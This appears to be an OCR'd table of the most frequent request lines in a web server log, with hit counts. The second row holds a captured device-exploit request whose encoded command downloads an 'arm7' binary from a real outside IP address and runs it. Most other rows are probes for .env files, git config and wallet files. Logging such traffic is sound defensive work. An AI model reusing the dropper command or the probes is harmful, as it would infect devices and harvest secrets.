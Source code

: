 |   1 |                    70 | GET / HTTP/1.0                                                                                                                                                                                                                                                                                                                                                         |
|   2 |                    44 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F45.125.66.139%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                             |
|   3 |                    32 | GET /.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                     |
|   4 |                    23 | GET /cgi-bin/luci/;stok=/locale HTTP/1.1                                                                                                                                                                                                                                                                                                                               |
|   5 |                    20 | \x16\x03\x02\x01o\x01\x00\x01k\x03\x02RH\xC5\x1A#\xF7:N\xDF\xE2\xB4\x82/\xFF\x09T\x9F\xA7\xC4y\xB0h\xC6\x13\x8C\xA4\x1C=\x22\xE1\x1A\x98 \x84\xB4,\x85\xAFn\xE3Y\xBBbhl\xFF(=':\xA9\x82\xD9o\xC8\xA2\xD7\x93\x98\xB4\xEF\x80\xE5\xB9\x90\x00(\xC0                                                                                                                      |
|   6 |                    17 | GET /wallet.json HTTP/1.1                                                                                                                                                                                                                                                                                                                                              |
|   7 |                    12 | POST / HTTP/1.1                                                                                                                                                                                                                                                                                                                                                        |
|   8 |                    12 | GET /favicon.ico HTTP/1.1                                                                                                                                                                                                                                                                                                                                              |
|   9 |                     8 | GET /core/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                         |
|  10 |                     6 | GET /api/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                 |
|  11 |                     5 | GET /druid/index.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                         |
|  12 |                     5 | GET /.env.bak HTTP/1.1                                                                                                                                                                                                                                                                                                                                                 |
|  13 |                     5 | GET /.env.production.local HTTP/1.1                                                                                                                                                                                                                                                                                                                                    |
|  14 |                     5 | GET /.env.local HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
|  15 |                     5 | GET /.env.example HTTP/1.1                                                                                                                                                                                                                                                                                                                                             |
